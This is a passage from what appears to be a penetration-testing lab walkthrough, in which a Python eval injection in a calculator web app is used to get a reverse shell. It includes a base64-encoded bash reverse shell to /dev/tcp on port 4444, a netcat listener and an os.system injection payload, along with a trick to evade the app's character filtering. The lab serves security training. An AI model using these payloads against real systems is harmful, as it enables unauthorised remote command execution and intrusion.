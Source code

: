 Checking the IP address of the provided Kali instance:

**Command:**

```
ip addr
```

![11](https://assets.ine.com/content/pta-labs/18\_black\_box\_penetration\_test\_2/11.png)

Notice that there are 2 interfaces (excluding the loopback interface) on the provided Kali instance namely: **eth0** and **eth1**.

The target machine ([online-calc.com](http://online-calc.com)) is on the same network as that of **eth1**. So we will use the IP of that interface in this exploit:`192.196.85.2`

Since the`/`characters in the user payload would be converted to`* 1.0 /`by the`evaluate`function, we will base64-encode the payload:

**Command:**

```
echo 'bash -c "bash -i >& /dev/tcp/192.196.85.2/4444 0>&1"' | base64
```

![11\_1](https://assets.ine.com/content/pta-labs/18\_black\_box\_penetration\_test\_2/11\_1.png)

**Note:** Make sure you replace the IP in the above command with the IP of your Kali GUI instance. Otherwise the exploit wouldn't work!

**Step 12:** Exploiting the RCE to get a reverse shell.

Once the payload has been base64-encoded, start a netcat listener on one of the terminals of the provided Kali instance:

**Command:**

```
nc -lvp 4444
```

![12](https://assets.ine.com/content/pta-labs/18\_black\_box\_penetration\_test\_2/12.png)

Copy the following payload:

**Payload:**

```
__import__("os").system("echo YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTk2Ljg1LjIvNDQ0NCAwPiYxIgo= | base64 -d | bash")
```

![12\_1](https://assets.ine.com/content/pta-labs/18\_black\_box\_penetration\_test\_2/12\_1.png)

**Note:** - Press **CTRL**+**SHIFT**+**ALT** in order to copy the payload to the clipboard of the Kali instance. - Make sure to replace the base64-encoded value in the above payload since the IP address of your Kali GUI instance might be different. If you copy the payload as is, chances are that it might not work due to the same reason.

The above payload decodes the base64 encoded payload we created in the previous step and passes it to`bash`for executing the reverse shell payload. Since our payload will be executed by the`eval`function in Python, that's why we are importing Python's`os`module to execute the desired commands.
